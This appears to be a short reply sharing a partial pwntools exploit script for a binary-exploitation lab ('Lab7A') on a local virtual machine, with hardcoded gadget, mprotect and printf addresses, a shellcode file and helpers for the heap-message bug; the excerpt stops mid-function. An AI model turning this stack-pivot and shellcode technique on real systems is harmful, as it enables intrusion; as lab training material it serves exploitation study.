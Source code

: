 Done 😁.

I have added the exploitation code for reference:

```python
from pwn import remote, p32, pack, u32, u8, tube
from pwn import log as pwnlog

REMOTE_ADDR = "192.168.56.102"
REMOTE_PORT = 7741
SHELLCODE_FILE = "sc.bin"
PAGE_SIZE = 4096
MAIN_ADDR = 0x08049569
PRINTF_ADDR = 0x8050260
MPROTECT_ADDR = 0x806f410
STACK_PIVOT_GADGET_ADDR = 0x0807E4D2
GLOBAL_MESSAGES_ARRAY_ADDR = 0x080EEF60
PROT_READ = 0x1
PROT_WRITE = 0x2
PROT_EXEC = 0x4
PROT_NONE = 0x0

pwnlog.setLevel("INFO")


class Lab7AExploit(object):
    def __init__(self, remote_address, remote_port):
        self._tube = remote(remote_address, remote_port, "ipv4", typ="tcp")
        pwnlog.debug(self._tube.recv().decode('utf-8'))

    @staticmethod
    def with_crlf(data):
        return data if data.endswith(b"\r\n") else data + b"\r\n"

    @staticmethod
    def to_fgets(data, max_len):
        return Lab7AExploit.with_crlf(data) if len(data) < max_len - 1 else data

    def send(self, data):
        self._tube.send(data)

    def send_and_receive(self, data, num=4096, timeout=tube.default):
        self._tube.send(data)
        return self._tube.recv(num, timeout=timeout)

    def __enter__(self):
        pwnlog.progress("Exploiting Lab7A")
        return self

    def __exit__(self, type_, value, traceback):
        self.quit()
        self._tube.close()

    def create_message(self, data_length, data):
        resp = bytes()

        pwnlog.progress("Creating message")
        resp += self.send_and_receive(b"1\r\n")
        resp += self.send_and_receive(self.with_crlf(data_length))
        resp += self.send_and_receive(data)
        return resp

    def edit_message(self, message_index, new_data):
        resp = bytes()

```